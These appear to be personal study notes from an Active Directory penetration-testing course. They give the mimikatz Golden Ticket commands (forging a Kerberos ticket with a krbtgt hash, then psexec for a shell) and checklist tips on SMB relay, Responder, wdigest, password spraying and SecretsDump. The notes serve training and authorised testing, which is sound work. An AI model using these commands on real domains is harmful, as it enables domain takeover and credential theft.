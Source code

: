 - **==Golden Ticket Attack==**
	- [[Golden Tickets Attack]]
	- Get the **`krbtgt` NTLM hash from NTDS.dit or mimikatz** and **Domain SID** using: `whoami /all`(remove the last part like, `S-1-5-21-1126976039-2783927241-3803123567-REMOVEME`) 
		- ![[Pasted image 20250512161607.png]]
	- `kerberos::golden /User:fakeuser123 /domain:MARVEL.local /sid:<copied_sid_of_domain> /krbtgt:<copied_krbtgt_hash> /id:500 /ptt`
		- `id`: Your `rid` (Admin account)
	- `misc::cmd`
	- `psexec.exe \\THEPUNISHER cmd.exe`

# Recent Vulnerabilities
---
[[Check for these]]
PrintNightmare: https://academy.tcm-sec.com/courses/1152300/lectures/33637715


# AD Case Studies Checklist
---
## Case - 1
- https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security
- [[Case Study - 1]]
- **SMB Relay Attack if hashes are caught** and even if not crackable
- Password ==**reuse is prominent** even with **different accounts**.==
- **==Moving laterally==** with all the **credentials on other machines** 
- **Keep moving laterally until a single mistake is found : ==Finding Hashes to move vertically**==

## Case - 2
- [[Case Study - 2]]
- **==what is available on the network?==**
- Web pages and default **credentials ==(administrator, admin) even on domains if we have a password==**
- **==Pay attention to `wdigest` if on previous Operating Systems (especially servers), Windows 7, 8, XP, etc
- ==**Dump all the machines with password spraying of new credentials**==

# Case - 3
- [[Case Study - 3]]
- **==Public File share access==** with a cracked hash from Responder
- ==**Service Accounts from SecretsDump**==
- **==!!! ENUMERATE !!!==**